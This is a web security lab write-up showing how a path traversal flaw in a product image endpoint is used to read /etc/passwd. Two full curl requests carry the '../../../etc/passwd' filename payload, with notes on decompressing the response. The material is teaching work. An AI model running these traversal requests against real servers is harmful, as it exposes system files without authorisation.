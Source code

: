 # Lab Description
This lab contains a **path traversal vulnerability in the display of product images**.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

# Lab Solution

We open the page in `dev mode` and see there are 3 types of relative URL paths in the code:
- First type pointing directly to the resource
- Second type with query parameter `filename`
- Third type with query parameter `productID`




Note: If you copy the command as curl

`Accept-Encoding: gzip, deflate, br` rules how things will be downloaded from the server.


If `Copy as curl command (bash)` is used it copies the request in following way.


```
curl -i -s -k -X $'GET' \
    -H $'Host: 0abf0096033c0eca80fadfba00360066.web-security-academy.net' -H $'Sec-Ch-Ua: \"Chromium\";v=\"117\", \"Not;A=Brand\";v=\"8\"' -H $'Sec-Ch-Ua-Mobile: ?0' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36' -H $'Sec-Ch-Ua-Platform: \"Linux\"' -H $'Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-Mode: no-cors' -H $'Sec-Fetch-Dest: image' -H $'Referer: https://0abf0096033c0eca80fadfba00360066.web-security-academy.net/' -H $'Accept-Encoding: gzip, deflate, br' -H $'Accept-Language: en-US,en;q=0.9' \
    -b $'session=sBeE3fEhx4nSuCUZYaImFOdcncS92EsG' \
    $'https://0abf0096033c0eca80fadfba00360066.web-security-academy.net/image?filename=../../../../etc/passwd'
```

Most of the time, this will yield no results due to the compression.
Two options are viable:
- Delete header `$'Accept-Encoding: gzip, deflate, br'`
- Append flag `--compressed`; this allows to automatically decompress HTTP response if the compression in use is one of the algorithms `curl` supports.

#### Alternative:

Possible to pipe the result to `gzip -d` to get decompressed result, however, the flag `-i` or `--include`, which includes HTTP response headers in the output. This disable possibility to decompress with `gzip`.

```
curl 'https://0a3e00d60391d47d8045a3fd005b00ef.web-security-academy.net/image?filename=../../../etc/passwd' \
  -H 'authority: 0a3e00d60391d47d8045a3fd005b00ef.web-security-academy.net' \
  -H 'accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'accept-language: en-US,en;q=0.9' \
  -H 'cookie: session=ciUxesTOw5cfzikNAIome0NNvhD64svz' \
  -H 'sec-ch-ua: "Chromium";v="117", "Not;A=Brand";v="8"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "Linux"' \
  -H 'sec-fetch-dest: document' \
  -H 'sec-fetch-mode: navigate' \
  -H 'sec-fetch-site: none' \
  -H 'sec-fetch-user: ?1' \
  -H 'upgrade-insecure-requests: 1' \
  -H 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36' \
  --compressed \
  --insecure
```
